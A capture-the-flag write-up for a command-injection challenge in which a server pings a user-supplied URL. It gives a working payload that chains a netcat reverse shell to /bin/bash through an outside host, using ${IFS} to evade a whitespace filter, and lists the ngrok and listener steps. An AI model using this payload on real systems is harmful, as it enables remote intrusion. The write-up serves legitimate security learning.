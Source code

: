 # BasicRCE
## Description
This challenge is quite straightforward (the kind of exploit to use is in the title, after all).
The index page shows that the server will ping the URL sent by the user and shows only the return code of the ping command.
The ping command doesn't allow any redirects, and white spaces are blacklisted.
The flag is in the file /flag.txt

## Exploit
Although this is a blackbox, it's intuitive that the server concats the input string to the ping command, and then executes the new command in another thread.
This allows the user to execute any bash command on the server (as long as the server actually contains the binaries of that command), and there's many ways to exploit this.
An approach is to build a TCP tunnel between the local host and the challenge server, start a remote /bin/bash instance and interact with it, reading the /flag.txt file.
The payload is: ```www.google.com;nc${IFS}<ip_address>${IFS}<port_number>${IFS}-e${IFS}/bin/bash``` (it's recommended to use a TCP reverse proxy server, for example [ngrok](https://www.ngrok.com)).
This exploit will make the server execute the command ```ping -c 1 www.google.com``` successfully, and then execute ```nc``` immediately afterwards, opening the tunnel.
```${IFS}``` allows to escape the whitespace check.

### Steps to do
1. Boot up ngrok with ```ngrok tcp <random_port>```
2. Listen at the ngrok instance using ```nc -lvn <port_number>``` (the port number must be the same used for ngrok)
3. Find the IP address of the proxy
4. Write the payload and send it
5. If the connection has been established, it's now possible to send any command to the server via nc.
6. Grab the flag on /flag.txt
